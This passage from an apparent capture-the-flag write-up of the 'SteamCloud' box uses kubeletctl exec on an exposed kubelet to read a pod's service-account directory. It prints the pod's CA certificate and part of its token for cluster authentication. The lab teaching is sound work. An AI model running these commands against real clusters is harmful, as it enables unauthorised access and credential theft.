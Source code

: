 
This command is listed on the [HackTricks page for
Kubernetes](https://book.hacktricks.xyz/cloud-security/pentesting-
kubernetes/pentesting-kubernetes-from-the-outside?q=kubeletctr#kubelet-rce).
As I failed to get a shell when initially solving the box, the rest of the
writeup is operating without this.

## File System as root on SteamCloud

### Enumeration

#### nginx Container

[This page](https://book.hacktricks.xyz/cloud-security/pentesting-
kubernetes/enumeration-from-a-pod) from HackTricks shows the location of the
ServiceAccount object, which is managed by Kubernets and provides identity
within the pod. It gives three typical directories:

  * `/run/secrets/kubernetes.io/serviceaccount`
  * `/var/run/secrets/kubernetes.io/serviceaccount`
  * `/secrets/kubernetes.io/serviceaccout`

In this case, it’s the first one:

    
    
    oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "ls /run/secrets/kubernetes.io/serviceaccount" -p nginx -c nginx
    ca.crt  namespace  token
    

These are the three [expected files](https://book.hacktricks.xyz/cloud-
security/pentesting-kubernetes/enumeration-from-a-pod):

> **ca.crt** : It’s the ca certificate to check kubernetes communications
>
> **namespace** : It indicates the current namespace
>
> **token** : It contains the **service token** of the current pod.

With the `ca.crt` and the `token`, I can authenticate to the cluster.

I’ll save these (`tee` will write them to a file and show them via stdout):

    
    
    oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee ca.crt
    -----BEGIN CERTIFICATE-----
    MIIDBjCCAe6gAwIBAgIBATANBgkqhkiG9w0BAQsFADAVMRMwEQYDVQQDEwptaW5p
    a3ViZUNBMB4XDTIxMTEyOTEyMTY1NVoXDTMxMTEyODEyMTY1NVowFTETMBEGA1UE
    ...[snip]...
    
    oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee token
    eyJhbGciOiJSUzI1NiIsImtpZCI6Im1aLUpKcmtjMFJTM3hpT083ZUNNLWk2WTRvNENTZWRvMVBZNmpaY1FmMUUifQ.eyJhdWQiOlsiaHR0cHM6Ly9rdWJlcm5ldGVzLmRlZmF1bHQuc3ZjLmNsdXN0ZXIubG9jYWwiXSwiZ
    ...[snip]...
    